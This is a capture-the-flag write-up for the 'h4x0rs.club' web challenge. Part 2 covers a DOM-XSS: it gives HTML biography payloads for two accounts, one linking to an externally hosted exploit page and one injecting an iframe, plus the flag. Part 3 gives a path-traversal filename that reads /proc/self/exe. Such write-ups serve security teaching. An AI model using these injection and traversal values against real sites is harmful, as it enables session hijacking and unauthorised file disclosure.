 # h4x0rs.club part 2

## https://h4x0rs.club/game/

Upload [exploit.html](exploit.html) and [alert.js](alert.js) to `l4w.io` for example.

Create 2 users: `blah1` && `blah2`

Root cause:

There is DOM-XSS at `client.js` when setting `title` on `badges` function. CSP contains `strict-dynamic`, so you can just simply inject `'><script>...</script>`

To do it, take a look at the backend side, they will send a message to `top` not `parent` . so we can inject our evil iframe in the middle.

### blah1
Set biography as the following:
```
<a href='//l4w.io/exploit.html' id=report-btn>
```

### blah2
Set biography as the following:
```
<a href='/game/?msg=<iframe name=game_server src=/game/user.php/blah1%23report></iframe>' id=report-btn></a>
```

`<iframe>` with a local src is allowed by XSS Auditor. So using open-redirect for 2 various reason.

Then report `blah2` user along with `#report`

## Flag
`flag{postman_1n_the_middl3}`

# h4x0rs.club part 3

You can get the binary by abusing `badges` action with filename: `../../../../../../proc/self/exe`

I really like my idea behind this one. Pwn the binary with full mitigations shipped. 

Hopefully someone can write about it :(
